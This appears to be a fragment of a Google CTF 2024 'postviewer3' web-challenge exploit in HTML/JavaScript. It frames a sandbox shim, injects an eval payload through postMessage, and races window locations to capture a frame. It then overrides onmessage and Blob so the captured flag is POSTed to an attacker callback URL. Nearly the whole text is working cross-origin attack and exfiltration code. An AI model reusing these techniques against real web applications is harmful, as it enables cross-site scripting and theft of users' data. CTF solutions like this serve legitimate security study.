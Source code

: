 ``` html
        salt: '',
        mimeType: 'text/html; charset=utf-8'
      }

      const hash = await calculateHash(data.body, PRODUCT, selfOrigin, data.salt);
      log.innerText += 'hash:' + hash

      const url = `https://sbx-${hash}.postviewer3-web.2024.ctfcompetition.com/postviewer/shim.html?o=${encodeURIComponent(selfOrigin)}`
      const iframe = document.createElement('iframe')
      iframe.src = url
      iframe.onload = function() {
        iframe.contentWindow.postMessage(data, '*')
        setTimeout(() => {
          iframe.contentWindow.postMessage({
            eval: `fetch('${callbackUrl}/step_1_xss');
            
            let stop = false

            for(let i=1; i<=3; i++) {
              fetch('${callbackUrl}/open_' + i)

              let win = window.open("https://postviewer3-web.2024.ctfcompetition.com/")
              
              setTimeout(() => {
                setInterval(function() {
                  if (stop) return
                  win.location = "https://postviewer3-web.2024.ctfcompetition.com/#0"
                }, 2)

                setInterval(function(){
                  if (stop) return
                  win.location = "https://postviewer3-web.2024.ctfcompetition.com/#postviewer${window.origin}"
                }, 6)

                setInterval(function() {
                  if (stop) return
                  try {
                    win.frames[0].origin
                    stop = true
                    
                    fetch('${callbackUrl}/correct_sandbox')
                    win.frames[0].onmessage = function(e) {
                      fetch('${callbackUrl}/flag', { method: 'POST', body: JSON.stringify(e.data) })
                    }
                    win.frames[0].Blob = function(a) {
                      fetch('${callbackUrl}/ping')
                      fetch('${callbackUrl}/flag', { method: 'POST', body: a })
                    }
                  } catch (err) {}
                }, 2)
              }, 500)
            }
            `
          }, '*')
          resolve()
        }, 1000)
      }
      document.body.appendChild(iframe)
    })
  }
```